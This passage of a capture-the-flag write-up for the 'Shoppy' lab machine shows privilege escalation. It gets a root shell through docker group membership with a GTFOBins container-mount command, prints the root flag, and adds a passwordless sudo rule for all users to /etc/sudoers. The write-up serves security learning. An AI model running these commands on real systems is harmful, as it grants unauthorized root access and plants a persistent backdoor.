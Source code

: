 We're in a docker group

```bash
❯ ssh deploy@10.10.11.180
deploy@10.10.11.180's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ bash 
deploy@shoppy:~$ export TERM=Xterm      
deploy@shoppy:~$ echo $TERM
xterm-kitty
deploy@shoppy:~$ export TERM=xterm
deploy@shoppy:~$ echo $TERM
xterm
deploy@shoppy:~$ whoami
deploy
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
deploy@shoppy:~$ hostname -I
10.10.11.180 172.17.0.1 dead:beef::250:56ff:feb9:66bf
```

After searching information I found this

- [https://gtfobins.github.io/gtfobins/docker/#shell](https://gtfobins.github.io/gtfobins/docker/#shell)

We can run a docker and be root in it, we follow the instructions

```bash
deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# bash
root@26db7e3466f7:/# whoami
root
```

We're root but we are in the container 

```bash
root@26db7e3466f7:~# cat root.txt 
82cbc15ee0e3ce5c8b22fb620baf9d10
root@26db7e3466f7:~# hostname -I
172.17.0.2 
root@26db7e3466f7:~#
```

we can edit the file /usr/sudoers because we are root and see the mount changes on the real machine

```bash
root@26db7e3466f7:~# echo 'ALL ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
root@26db7e3466f7:~# exit
exit
# exit
deploy@shoppy:~$ sudo -l
Matching Defaults entries for deploy on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User deploy may run the following commands on shoppy:
    (ALL) NOPASSWD: ALL
deploy@shoppy:~$ sudo su
root@shoppy:/home/deploy# id
uid=0(root) gid=0(root) groups=0(root)
```